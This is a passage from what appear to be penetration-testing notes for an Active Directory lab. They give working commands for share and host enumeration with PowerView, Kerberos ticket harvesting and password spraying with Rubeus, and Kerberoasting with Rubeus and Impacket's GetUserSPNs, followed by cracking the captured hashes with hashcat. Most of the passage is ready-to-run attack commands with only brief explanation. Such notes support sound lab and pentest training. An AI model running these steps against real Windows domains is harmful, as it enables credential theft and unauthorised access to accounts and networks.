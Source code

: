   - Shared folder

    ```powershell
    Invoke-ShareFinder
    ```

  - Operating system

    ```powershell
    Get-NetComputer -fulldata | select operatingsystem
    ```


### Harvesting & Brute-Forcing Tickets w/ Rubeus

Harvesting gathers tickets  that are being transferred to the KDC and saves them for use in other  attacks such as the pass the ticket attack.

On victim machine,

```
Rubeus.exe harvest /interval:30
```

add the IP and domain name to the hosts file from the machine by using the echo command:

```powershell
echo 10.10.122.227 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
```

take a given password and "spray" it against all found users then give the .kirbi TGT for that user 

```powershell
Rubeus.exe brute /password:Password1 /noticket
```



### Kerberoasting w/ Rubeus & Impacket

- method 1: Rubeus

  dump the Kerberos hash of any kerberoastable users

  ```powershell
  Rubeus.exe kerberoast
  ```

- method 2: Impacket

  dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like  Rubeus does; however, this does not have to be on the targets machine  and can be done remotely.

  ```bash
  cd /usr/share/doc/python3-impacket/examples/
  sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.122.227 -request
  hashcat -m 13100 -a 0 hash.txt rockyou.txt
  ```

- method 3: When you already in target machine; To gain Username,

  ```powershell
  PS> setspn -T medin -Q */*
  ```
